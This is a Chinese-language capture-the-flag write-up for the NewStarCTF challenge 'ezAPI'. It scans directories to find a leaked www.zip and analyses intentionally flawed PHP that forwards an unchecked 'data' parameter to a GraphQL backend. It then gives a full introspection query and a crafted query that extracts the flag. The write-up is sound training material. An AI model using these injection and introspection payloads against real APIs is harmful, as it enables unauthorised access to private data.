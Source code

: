 



![img](https://peekaboo.show/content/images/2022/11/807c18bb11faaa6a722bdef4c6235e52.png)



# Week2 ezAPI 200





#### 0、知识点与工具

>   graphql 查询

>   目录扫描工具：御剑



#### 1、页面情况

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117142929.png)



‌

>   页面很简洁就一个输入框，可以输入用户的id

>   测试后发现用户id的范围为：1~6，超出这个范围会返回这个信息

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117143243.png)



‌

##### 查看源代码，发现一条“提示信息？”，看不懂

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000006.png)



#### 2、使用御剑扫描一下网址目录

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/7WBHY%7BB$$RP7%7B%60%7B2FLN%5B9%606.png)



‌

>   访问下载www.zip

#### 3、分析其中的php代码

‌

```php
<?php
    error_reporting(0);

    // 传入参数id
    $id = $_POST['id'];


    // $str = $id
    // 对id进行过滤，id中必须含有数字，非数字部分会被替换为空
    function waf($str)
    {
        if (!is_numeric($str) || preg_replace("/[0-9]/", "", $str) !== "") {
            return False;
        } else {
            return True;
        }
    }

    // 发送查询的数据并返回结果
    function send($data)
    {
        $options = array(
            'http' => array(
                'method' => 'POST',
                'header' => 'Content-type: application/json',
                'content' => $data,
                'timeout' => 10 * 60
            )
        );

        $context = stream_context_create($options);
        $result = file_get_contents("http://graphql:8080/v1/graphql", false, $context);
        return $result;
    }

    // 首先判断id是否为空
    if (isset($id)) {

        // id进行waf过滤
        if (waf($id)) {

            // 需要在传入一个参数data, 会根据data是否为空执行代码
            // 如果data不为空，使用data的值，为空使用默认的值
                /**
                * '{
                *       "query":"query{
                *           users_user_by_pk(id:' . $id . ') {
                *                name
                *           }
                *        }", 
                *        "variables":null
                *  }';
                * 
                * 
                */
            isset($_POST['data']) ? $data = $_POST['data'] : $data = '{"query":"query{\nusers_user_by_pk(id:' . $id . ') {\nname\n}\n}\n", "variables":null}';

            // 接收结果并将结果对JSON格式的字符串进行解码
            $res = json_decode(send($data));

            // 查询结果中的name不为空就将其展示到页面上，否则输出找不到
            if ($res->data->users_user_by_pk->name !== NULL) {
                echo "ID: " . $id . "<br>Name: " . $res->data->users_user_by_pk->name;
            } else {
                echo "<b>Can't found it!</b><br><br>DEBUG: ";
                var_dump($res->data);
            }
        } else {
            die("<b>Hacker! Only Number!</b>");
        }
    } else {
        die("<b>No Data?</b>");
    }
?>
```



‌

>   关于graphql查询，有一种查询方式可以查询所有该API端点的所有信息

‌

```
{"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}
```



>   然后将上面这个放入data中，然后去执行就会返回所有信息，然后在返回信息中搜索一下flag

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117161755.png)



>   这样就找到flag所在的类的名称：ffffllllaaagggg_1n_h3r3_flag

>   然后在构造data查询

‌

```
{"query":"query{\nffffllllaaagggg_1n_h3r3_flag{\nflag\n}\n}\n", "variables":null}

// 直观点查看
{
	"query":"query{
    		ffffllllaaagggg_1n_h3r3_flag{
            	flag
            }
    	}",
    "variables":null
}
```



#### 4、结果

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117162630.png)



‌

>   关于graphql的资料可以看看这个

‌

[玩转graphQL这是酒仙桥六号部队的第118篇文章-玩转graphQL。全文共计4257个字，预计阅读时长12分钟。![img](https://res.wx.qq.com/a/wx_fed/assets/res/OTE0YTAw.png)微信公众平台先锋情报站![img](http://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54B52X8UPybZgzLeupG5ic16ibqicJicrq3dpBdZunVJWrxHsbNG53Eyiaiaibh6p2b523z6Jvpu8KTtaPTw/0?wx_fmt=jpeg)](https://mp.weixin.qq.com/s/gp2jGrLPllsh5xn7vn9BwQ)



‌

